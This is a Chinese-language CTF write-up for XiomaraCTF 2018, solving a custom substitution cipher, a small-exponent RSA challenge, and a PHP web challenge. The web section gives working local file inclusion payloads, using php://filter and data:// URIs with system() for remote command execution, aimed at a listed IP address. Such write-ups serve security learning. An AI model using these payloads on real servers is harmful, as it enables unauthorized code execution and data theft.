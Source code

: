 ```yaml
---
title: XiomaraCTF 解題
tags:
    - CTF
    - 解題
    - 筆記
categories:
    - Write-up
    - Xiomara
    - 2018
author: howpwn
---
```


HackMD網址：https://hackmd.io/s/B1grPrzOf

有些水題就不寫writeup了，交給其他人吧 (´・ω・`)

# Crypto - Custom HEN

密文：
```
082_336_88_167755403
```

題目跟你說，密文的產生方式是：
```
## encryption
FLAG -> HEN_Cipher -> alphametic puzzle -> CipherText
```

所以我們只要逆向這個加密過程就好了：
```
## decryption
FLAG <- HEN_Cipher <- alphametic puzzle <- CipherText
```


先用 [alphametic puzzle solver](http://www.tkcs-collins.com/truman/alphamet/alpha_solve.shtml) 把每個數字代表的英文找出來：

![](https://i.imgur.com/I8IEJtQ.png)

得到：
![](https://i.imgur.com/aII59cu.png)

將密文替換：
```
082_336_88_167755403 = CZF_KKU_ZZ_GUYYPPNCK
```


:::danger
HEN的加密模式：
左移偏移量 = ((字母的位置) * (字串總長度)) mod 26
注意！字串總長度不包含底線！
:::

:::success
HEN的解密方法：
右移偏移量 = ((字母的位置) * (字串總長度)) mod 26
不過首先要解決的就是 'A' 往右偏移1位如何到 'Z'
:::

這邊我寫了 python script 作解密，分別算出每個字母的偏移量與明文。

字母左移的部份我採用 ASCII 來作減法運算。

{% codeblock lang:python %}
#! /usr/bin/python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
# Copyright © 2018 howpwn <finn79426@gmail.com>


Ciphertext = 'CZFKKUZZGUYYPPNCK' # remove the "_"

plaintext_size = len(Ciphertext)

left_move = []
plaintext = ""

print "Ciphertext: {0}".format(Ciphertext)

print "Each alphabet left shift is:"
for i in range(0, plaintext_size):
    left_move.append(((i+1) * plaintext_size) % 26)
    print "alphabet[{0}] need {1} step".format(i+1, left_move[i])
print "----------"

print "Counting the left shift alphabet is what..."
for i in range(0, plaintext_size):
    temp = ord(Ciphertext[i]) + left_move[i]
    if temp > 90: # 如果 temp 大於 ASCII 的 "Z"，我們就必須將它檢掉 26 讓它回到 A 開始繼續往右移
        temp -= 26
    plaintext += chr(temp)
    print plaintext
print "----------"
{% endcodeblock %}

(PS:這樣code好亂Orz...我應該用function去實作的...)

執行完腳本後會得到 "THEARSOFDIDUCTION"，這個時候把底線與FLAG頭加上去就是正確答案了。

xiomara{THE\_ARS\_OF_DIDUCTION}

# Crypto - Giveaway

可以秒解。


1. N 太大，factordb不能分解出p、q
2. e 很小

{% codeblock lang:python %}
#! /usr/bin/python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
# Copyright © 2018 howpwn <finn79426@gmail.com>

from libnum import n2s
from gmpy2 import iroot
e = 3
n = 481198641867289038243532927701020249905433964052522187774270437592775342143784702291483427578470414194602731404343532513840453569385856109993166637836189117235549985093499643724363002153995995953731212190003813128852867940536928597102669895224512199695772684398151784349020282852823384810308548307944122748283
c = 2039130155866184490894181588949291569587424373754875837330412835527276040280846677481047284126316137541961805207979583672570357348995401556991229785828117383170279052532972654304372432603436204862621797


m = iroot(c,e)
print n2s(m[0])
{% endcodeblock %}

由於e太小、N太大，導致於：
c = $m^{e}$ mod n 
&nbsp;&nbsp;&nbsp;= $m^{e}$

也就是說，如果要解密m
m = $\sqrt[e] {c}$

xiomara{4y3_4y3_cryp70_6uy!}


# Web - Flag Locker

這網站有LFI漏洞

可以用 php://filter 看到該網頁的源碼 (記得base64 decode)

```
http://103.5.112.91:1234/?locker=php://filter/convert.base64-encode/resource=why
```
不過依然找不到 FLAG，所以我們必須要能夠 RCE 才能找出FLAG：

```
http://103.5.112.91:1234/?locker=data://text/plain,<?php system("ls -al")?>;
```

最後，其實FLAG是在 index.php 裡面
```
http://103.5.112.91:1234/?locker=data://text/plain,<?php system("cat index.php")?>;
```

xiomara{s0metim3s_fl@g_c@n_b3_d3cl@red_@s_v@riable}
